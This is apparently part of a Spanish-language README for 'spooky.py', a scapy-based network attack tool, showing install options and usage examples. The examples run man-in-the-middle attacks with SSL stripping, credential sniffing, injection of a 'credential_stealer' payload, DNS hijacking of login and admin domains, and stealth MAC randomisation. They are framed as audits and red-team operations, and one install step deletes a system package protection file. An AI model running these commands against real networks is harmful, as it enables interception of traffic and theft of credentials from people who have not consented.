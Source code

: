 ### Opción 4: Paquetes del Sistema
```bash
# Usar paquetes de la distribución
sudo apt update
sudo apt install python3-scapy python3-flask python3-psutil python3-requests

# Usar normalmente
sudo python3 spooky.py --help
```

### Opción 5: Eliminar Protección (No recomendada)
```bash
# CUIDADO: Esto elimina la protección del sistema
sudo rm /usr/lib/python*/EXTERNALLY-MANAGED
pip3 install scapy flask psutil requests
```

## 🎯 Ejemplos por Escenario

### 1. Auditoria Corporativa Básica
```bash
# Modo interactivo tradicional
sudo python3 spooky.py

# Auditoria sigilosa con dashboard
sudo python3 spooky.py --profile corporate --web-dashboard --stealth

# Solo credenciales, sin MITM activo
sudo python3 spooky.py --only-sniff --iface eth0 --web-dashboard
```

### 2. Red Team Operations
```bash
# Ataque completo con todas las funciones
sudo python3 spooky.py --profile red_team \
    --target 192.168.1.100 \
    --gateway 192.168.1.1 \
    --ssl-strip \
    --inject-payload credential_stealer \
    --randomize-mac \
    --stealth

# Ataque dirigido con DNS hijacking
sudo python3 spooky.py --profile red_team \
    --target 192.168.1.0/24 \
    --gateway 192.168.1.1 \
    --target-domains "login,auth,admin,secure" \
    --web-dashboard
```

### 3. Análisis de Red WiFi
```bash
# Auditoria WiFi completa
sudo python3 spooky.py --profile wifi_audit \
    --iface wlan0 \
    --ssl-strip \
    --web-dashboard \
    --ml-analysis

# Captura pasiva con análisis
sudo python3 spooky.py --only-sniff \
    --iface wlan0 \
    --bpf "not arp and not icmp" \
```